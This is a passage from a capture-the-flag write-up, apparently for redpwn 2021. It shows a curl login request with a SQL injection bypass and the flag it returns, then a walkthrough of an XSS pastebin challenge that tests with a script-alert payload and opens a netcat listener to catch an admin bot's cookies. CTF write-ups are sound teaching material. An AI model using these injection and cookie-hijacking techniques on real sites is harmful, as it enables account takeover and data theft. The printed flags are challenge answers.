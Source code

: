 6. The following curl post request works just fine
```sh
$ curl -d "username=YWRtaW4=&password=1' or '1' = '1" -X POST https://secure.mc.ax/login

Found. Redirecting to /?message=flag%7B50m37h1n6_50m37h1n6_cl13n7_n07_600d%7D
#flag{50m37h1n6_50m37h1n6_cl13n7_n07_600d}
```

##### Flag: flag{50m37h1n6_50m37h1n6_cl13n7_n07_600d}

### web/pastebin-1

---

#### Categeory: Web

#### Difficulty: Medium

#### Keywords: XSS, Cookie Hijacking

#### Author: TheRealDarkCoder

#### Prompt:>

```
Ah, the classic pastebin. Can you get the admin's cookies?

pastebin-1.mc.ax

Admin bot: https://admin-bot.mc.ax/pastebin-1
```

#### Overview:>

1. As the prompt suggests, it is indeed a classic challenge. Upon visiting the website we find a input field which allows us to input any text, and then it stores the text somewhere and gives us a URL which we can use to view the text in the future, hence the name pastebin. The prompt also gives us a link to an admin bot page. The idea is that the admin bot also has a input field which takes the url of any pastebin link. Upon giving the link, the bot visits the link and reads the paste.

2. The backend is written in rust and provided to us (`web/SOLVED_pastebin-1/main.rs`). However I'm very rusty in rust (pun intended) so I decided not to bother with it, and instead try a classic XSS check. So I created a paste with the content 

```js
<script>alert(1)</script>
```

...and sure enough, we have XSS as an alert pops up.

3. On my remote server I open up a port using netcat

```sh
nc -lvpn 1337
```

... *The server is not behind a NAT as it's my test lab so it is publicly accesible. However I would not recommend using your own home computers instead use online services like [hookbin](https://hookbin.com) which gives you a free http endpoint (Thanks to [a writeup here](https://blog.pipeframe.xyz/post/redpwn2021))*
  